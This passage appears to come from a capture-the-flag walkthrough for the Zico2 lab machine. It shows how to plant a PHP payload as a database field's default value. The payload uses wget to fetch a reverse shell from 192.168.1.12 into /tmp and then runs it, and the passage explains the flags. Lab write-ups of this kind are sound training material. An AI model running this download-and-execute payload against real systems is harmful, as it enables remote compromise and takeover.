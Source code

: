 Add a table inside it called shell, select 1 field:      

<img src="/img/blog/zico2/Zico7.png">

Name the field whatever we wish, set it as *text* type, put `<?php system("wget 192.168.1.12/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>` into the default value & click create. This should create a new table with our exploit. The default value script plays a huge role here as it is used to download our main php reverse shell.

<img src="/img/blog/zico2/Zico8.png">
 
`wget - downloads the the main file on the target machine`

`-O /tmp/shell.php - converts the text file into php (this is used to prevent activation of php payload on our server) and saves it inside /tmp folder`
